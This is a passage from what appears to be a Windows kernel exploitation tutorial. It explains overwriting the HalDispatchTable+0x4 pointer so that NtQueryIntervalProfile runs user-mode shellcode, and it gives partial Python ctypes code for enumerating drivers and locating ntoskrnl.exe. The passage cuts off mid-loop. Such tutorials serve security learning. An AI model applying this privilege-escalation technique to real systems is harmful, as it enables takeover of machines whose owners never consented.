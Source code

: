 `uf nt!KeQueryIntervalProfile`:

<img src="{{ site.url }}{{ site.baseurl }}/images/ARB6.png" alt="">

Essentially, the address at HalDispatchTable + 0x4, is passed via `KeQueryIntervalProfile()`. If we can overwrite that pointer with a pointer to our user mode shellcode, natural execution will eventually execute our shellcode, when `NtQueryIntervalProfile()` (which calls `KeQueryIntervalProfile()`) is called!

Order Of Operations
---
Here are the steps we need to take, in order for this to work:

1. Enumerate all drivers addresses via [EnumDeviceDrivers()](https://docs.microsoft.com/en-us/windows/win32/api/psapi/nf-psapi-enumdevicedrivers?redirectedfrom=MSDN)
2. Sort through the list of addresses for the address of `ntkornl.exe` (`ntoskrnl.exe` exports `KeQueryIntervalProfile()`)
3. Load `ntoskrnl.exe` handle into [LoadLibraryExA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibraryexa) and then enumerate the HalDispatchTable address via [GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)
4. Once the HalDispatchTable address is found, we will calculate the address of HalDispatchTable + 0x4 (by adding 4 bytes), and overwrite that pointer with a pointer to our user mode shellcode

EnumDeviceDrivers()
---
```python
# Enumerating addresses for all drivers via EnumDeviceDrivers()
base = (c_ulong * 1024)()
get_drivers = psapi.EnumDeviceDrivers(
    byref(base),                      # lpImageBase (array that receives list of addresses)
    c_int(1024),                      # cb (size of lpImageBase array, in bytes)
    byref(c_long())                   # lpcbNeeded (bytes returned in the array)
)

# Error handling if function fails
if not base:
    print "[+] EnumDeviceDrivers() function call failed!"
    sys.exit(-1)
```

This snippet of code enumerates the base addresses for the drivers, and exports them to an array. After the base addresses have been enumerated, we can move on to finding the address of `ntoskrnl.exe`

ntoskrnl.exe
---
```python
# Cycle through enumerated addresses, for ntoskrnl.exe using GetDeviceDriverBaseNameA()
for base_address in base:
    if not base_address:
        continue
    current_name = c_char_p('\x00' * 1024)
    driver_name = psapi.GetDeviceDriverBaseNameA(
        base_address,                 # ImageBase (load address of current device driver)
        current_name,                 # lpFilename
        48                            # nSize (size of the buffer, in chars)
    )

    # Error handling if function fails
    if not driver_name:
        print "[+] GetDeviceDriverBaseNameA() function call failed!"
        sys.exit(-1)

    if current_name.value.lower() == 'ntkrnl' or 'ntkrnl' in current_name.value.lower():

```